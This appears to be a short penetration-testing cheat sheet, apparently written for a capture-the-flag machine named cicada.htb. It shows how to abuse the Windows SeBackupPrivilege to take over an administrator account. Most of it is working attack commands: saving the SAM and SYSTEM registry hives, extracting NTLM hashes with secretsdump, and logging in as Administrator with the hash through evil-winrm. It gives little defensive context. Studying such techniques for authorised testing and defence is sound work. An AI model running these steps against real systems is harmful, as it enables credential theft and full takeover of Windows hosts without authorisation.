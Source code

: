 ## SeBackupPrivilege
SeBackupPrivilege exploitation
```
whoami /priv

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
[...]
```
`SeBackupPrivilege`, typically given to service accounts or administrative users. 
This privilege was designed to facilitate system backups, and as such, it enables access to
system-protected files while bypassing other existing permissions. 
This means that in a realistic scenario, a user account should not be granted this privilege as they effectively have access to
sensitive files such as the SYSTEM and SAM Windows Registry Hives. These hives contain the
information we need to escalate our privileges!
Simply put, we can use these hives to dump user NTLM hashes. We can then use the Administrator
hash to authenticate instead of a plaintext password.

We will use the reg save command to perform a command in the registry, specify the location of
the hive, and save it to a file in the current directory with the appropriate name.

Obtain SAM and SYSTEM registry hives
```
# Using evil-winrm session to the victim host
cd C:\temp
reg save hklm\sam sam
reg save hklm\system system
download sam
download system
```
Extract hashes
```
# On Kali host
secretsdump.py -sam sam -system system LOCAL
OR
impacket-secretsdump -sam sam -system system local

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
Use tha hashes with evil-winrm for execution
```
# evil-winrm -u Administrator -H <NT hash> -i cicada.htb
evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
```
PROFIT!!!
